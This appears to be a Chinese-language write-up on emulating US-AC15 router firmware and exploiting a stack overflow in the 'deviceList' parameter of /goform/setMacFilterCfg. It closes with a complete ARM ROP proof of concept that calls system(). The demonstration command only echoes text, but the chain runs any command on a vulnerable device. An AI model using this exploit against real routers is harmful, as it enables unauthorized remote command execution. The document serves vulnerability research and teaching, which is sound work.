## 固件模拟

首先拿到手一个固件包，使用binwalk提取一下

会到手有这些文件（除去p1.py）
主要是去squashfs-root中分析，这个文件夹便是该设备的文件系统
其内有



使用命令 `cp "$(which qemu-arm-static)" . ` 将qemu-arm-static复制到当前目录。
	qemu-arm-static 是一个静态链接的ARM用户态模拟器可执行文件，其作用为：在x86主机上运行ARM文件

使用命令 `sudo chroot . ./qemu-arm-static  ./bin/httpd ` 
	解析：
		首先是sudo授予权限
		`chroot .` ：将根目录改为当前目录
		`./qemu-arm-static` ：即上面所说的，在x86主机上能运行ARM文件
		`./bin/httpd` ：运行目标程序，开启服务

此时运行该命令后会发现程序寄了

此时把httpd文件拖到IDA内看看情况

使用字符串定位大法

并且在下面是能看到是有一个对网络和cfm检查的，对应上了上面程序爆的服务、cfm连接失败
去看看他们的汇编

重点是这几行
```
.text:0002E50C                 BL              check_network
.text:0002E510                 MOV             R3, R0
.text:0002E514                 CMP             R3, #0
.text:0002E518                 BGT             loc_2E528
.text:0002E51C                 MOV             R0, #1  ; seconds
.text:0002E520                 BL              sleep
.text:0002E524                 B               loc_2E504

.text:0002E530                 BL              ConnectCfm
.text:0002E534                 MOV             R3, R0
.text:0002E538                 CMP             R3, #0
.text:0002E53C                 BNE             loc_2E558
.text:0002E540                 LDR             R3, =(aConnectCfmFail - 0xFF3B8) ; "connect cfm failed!"
.text:0002E544                 ADD             R3, R4, R3 ; "connect cfm failed!"
.text:0002E548                 MOV             R0, R3  ; format
```
调用check_network与ConnectCfm，如果连接成功就正常运作，连接失败就返回0，然后退出
其返回值在MOV R3,R0这里从R0被赋给R3，后面拿R3与0进行对比，因此这里直接把R0该为1，即R3恒被赋值为1，即可绕过验证
patch掉后继续回到之前执行命令

可以看到虽然爆了一堆什么找不到，但依旧正常运作了
（此地ip需自行配置，没配置前是255.255.255.0）

使用浏览器访问

（这里有一个小tip，如果你什么都没改直接来访问这个页面会爆如下页面）
	
	这是什么原因呢？
	答案是你解包后会出现
	
	这两个文件夹，你模拟运行时是使用的webroot文件夹，但其内是空的，所有的文件在于旁边的webroot_ro，因此可以直接把webroot_ro里的内容复制到webroot内
	之后再打开就正常了

## 逆向解析

根据官方通告可以得知漏洞点是位于./bin/httpd 的sub_C24C0函数（该文件通常是Web管理服务主程序），直接ida打开分析

可以很明显看到这里存在一个写的操作
	
我们逆向回溯一下这个a1,a2分别是什么

来到上级函数，这里的a2对应前面的a1,a2对应v12。而v12是一个栈上的数组，因此可以把之前的理解为是往栈上写入。接下来继续找a2（就是前面的a1）

这没啥好看的，继续往上翻

这里v17对应前面a2.而v17是经过这个函数得到的返回值
	
	此为何物呢？
	经过解析，这等同于v17 = get_param(a1, "deviceList", default); （虽然被去了符号，但这个特征很明显，中间一个参数名，后面一个默认0的值，然后返回结果赋值给v17）
意思就是v17会等于deviceList的值，而这个值呢，是我们从提交的数据。这意味着v17是完全由我们控制的，不限内容与长度。因此这个前面那个地方的意思就是，有一个栈上数组让我们无限制写，存在一个栈溢出漏洞。

找到漏洞点后我们还需要分析该路径的可达性
可以注意到，该路径是只有当前函数v19值为0时可达，对v19值的来源进行解析
	
	
	经过这两可以解析出，v19是当我们的v18为black或者white时会为0
	
	而根据上面这个，可以判断出v18是我们传入参数名为 macFilterType 的值

好，继续往上翻（后面的函数上面看过，其实没有什么特殊的验证逻辑）
	
	
	可汗大点兵这一块
	稍微看了一下sub_171EC，感觉没啥看的。不过看有这么多类别，猜测是一个参数名匹配，命中左边的字符串就调用右边的函数。
继续往上翻
	
	这里有一个需要注意的（其实最开始我没注意到...后面发现没打通才回头看到的...）
	`sub_179A8("/goform", 0, 0, websFormHandler, 0);`
	经过事后诸葛亮的神力，这其实和上面那个都是GoAhead api函数
		GoAhead是一个轻量化、适用于嵌入式设备的Web服务器，采用C语言编写，代码量不大，具有高度的可移植性和扩展性。GoAhead支持多进程、多线程，能够处理大量的并发连接，支持SSL/TLS加密和基本的身份认证，支持CGI、ASP。
	这里的 `sub_179A8("/goform", 0, 0, websFormHandler, 0);`
	其实就是 `websUrlHandlerDefine(T("/goform"), NULL, 0, websFormHandler, 0);` 
	其意思就是：表示对/goform的请求都交给websFormHandler函数处理
	而上面的`sub_171EC("setMacFilterCfg", formSetMacFilterCfg);` 
	其实就是 `websFormDefine(T("setMacFilterCfg"), formSetMacFilterCfg); 
	其意思就是：表示往`/goform/setMacFilterCfg` 的请求都由 `formSetMacFilterCfg` 函数进行处理
	因此，这里其实就是说我们发送报文的路径其实是 `url/goform/setMacFilterCfg` ，不然毫无作用
	这里还藏有一个鉴权的函数，应该是sub_179A8(&unk_DC618, 0, 0, websDefaultHandler, 2);这种handler前都会有。
	
	对其内进行一个逆向解析（太长了，不贴了）
	大概意思就是有些路径不用权限，有些路径如我们的`/goform/setMacFiterCfg` 是需要一个名为password的Cookie值的，因此后面在写POC的时候得注意加上这个


再往上其实就到了我们之前看到的 ` ****** WeLoveLinux****** \n\n Welcome to ...` 这个了
意思就是到头了，不用再往前翻了

总结一下，我们就能知道大概的一个poc结构
```
import requests
ip="http://192.168.99.1/goform/setMacFilterCfg"
port="80"
cookie={"Cookie":"password=123"}
p1=0000
data={"macFilterType":"black","deviceList":p1}
r=requests.post(ip,cookies=cookie,data=data)
r=requests.post(ip,cookies=cookie,data=data)
print(r.text)
```
再构造poc的时候需要注意一个东西

最前面是有一个

其是再找'\r'在这里面出现在哪，因此我们构造payload时，先在前头写上'\r'，不加就不能进入漏洞路径了
可以先用cyclic 0x200 与cyclic -l 测出需要填充的长度

这就得进gdb调了，需要注意的是，需要使用多模态的 gdb-multiarch
还要进行一些设置（如果你出现什么说架构报错达到话）
```
source /home/cauit/Desktop/tools/pwn_tool/pwndbg/gdbinit.py
define armenv
  set architecture arm
  set sysroot /home/cauit/Desktop/iotest/_US-AC15.bin.extracted/squashfs-root
  set solib-search-path /home/cauit/Desktop/iotest/_US-AC15.bin.extracted/squashfs-root/lib
  set auto-solib-add off
end
document armenv
  quick setup for ARM firmware debugging
end
define rem
  target remote :1234
end
document rem
  quick to remote gdb
end
```
可以在.gdbinit里写上一些快速设置的命令

使用命令：`sudo chroot . ./qemu-arm-static -g 1234 ./bin/httpd` 开启固件模拟，并开放1234端口供gdb连接

gdb连接上后，输入c直接跳到最后，然后执行我们的poc
	
	可以发现是利用成功的，并可以通过这个得出填充大小是176

之后我们需要泄露libc基址
	进入调试后打断点到puts函数
	
	然后去用ida打开libc.so.0去找puts
	
	因此libc基址就是 `base=0x40a20cd4-0x0035cd4`
	有了基址就能去找system以及gadget了
		
		这里找的是
			`pop {r3, pc};` 和 `mov r0, sp; blx r3; `

整理整理就得到了最终poc

```
from pwn import *
contex_log_level='debug'
import requests
ip="http://192.168.99.1/goform/setMacFilterCfg"
port="80"
base=0x40a20cd4-0x0035cd4
system=0x005a270+base
sh=0x000626d2+base
rp=0x00040cb8+base  #mov r0, sp; blx r3
r3=0x00018298+base  #pop {r3, pc};
p1=b'\r'+b'a'*(176)+p32(r3)+p32(system)+p32(rp)+b'echo PWNPWNPWN'

print(hex(base))
print(hex(system))
print(hex(rp))
print(hex(r3))

cookie={"Cookie":"password=123"}
data={"macFilterType":"black","deviceList":p1}
r=requests.post(ip,data=data)
r=requests.post(ip,data=data)
print(r.text)
```

	解析一下p1
	`p1=b'\r'+b'a'*(176)+p32(r3)+p32(system)+p32(rp)+b'echo PWNPWNPWN'`
	前面是填充数据就不说了
	pop {r3, pc}; 使得system进入r3寄存器，然后pc往下到达rp执行mov r0, sp; blx r3
	而mov r0, sp; blx r3使得栈顶地址成为第一个参数，并且执行r3内存的system函数
	而根据调用约定，将使得最终达成一个system("echo PWNPWNPWN")的结果，成功命令执行

最终效果
	
	PWNPWNPWN